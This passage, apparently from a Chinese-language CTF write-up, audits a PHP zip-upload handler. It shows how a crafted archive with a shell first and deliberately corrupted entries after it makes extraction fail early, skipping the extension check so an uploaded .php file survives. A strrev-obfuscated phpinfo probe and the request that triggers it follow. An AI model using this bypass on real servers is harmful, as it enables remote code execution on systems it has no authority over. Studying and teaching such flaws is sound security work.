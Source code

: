 ```php
    }
    rmdir($path);
    $zip-&gt;close();
    return true;
}


$uploadDir = __DIR__ . DIRECTORY_SEPARATOR . &#39;upload/suimages/&#39;;
if (!is_dir($uploadDir)) {
    mkdir($uploadDir, 0777, true);
}

if (isset($_FILES[&#39;file&#39;]) &amp;&amp; $_FILES[&#39;file&#39;][&#39;error&#39;] === UPLOAD_ERR_OK) {
    $uploadedFile = $_FILES[&#39;file&#39;];
    $zipname = $uploadedFile[&#39;tmp_name&#39;];
    $path = $uploadDir;

    $result = unzip($zipname, $path);
    if ($result === true) {
        header(&#34;Location: index.html?status=success&#34;);
        exit();
    } else {
        header(&#34;Location: index.html?status=$result&#34;);
        exit();
    }
} else {
    header(&#34;Location: index.html?status=file_error&#34;);
    exit();
}
```

做一下审计， `unzip()` 中解压失败时执行 `$zip-&gt;close();` 但并没有返回

所以可以构造压缩包，第一个文件放 shell ，后面放损坏的内容，使后一部分解压失败，关闭 zip 流，跳过文件拓展名检查和重命名，以保留 .php 文件

![image-20250125153507616](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/25/6794942c5ac08.png)

用 010editor 将下面的文件名改成 /////// 使解压失败

#### 0x02 绕过

先尝试 phpinfo

```php
&lt;?php
$p = &#34;ofniphp&#34;;
$pp = strrev($p);
$pp();
?&gt;
```

`GET /upload/suimages/hack.php` 成功读到 phpinfo
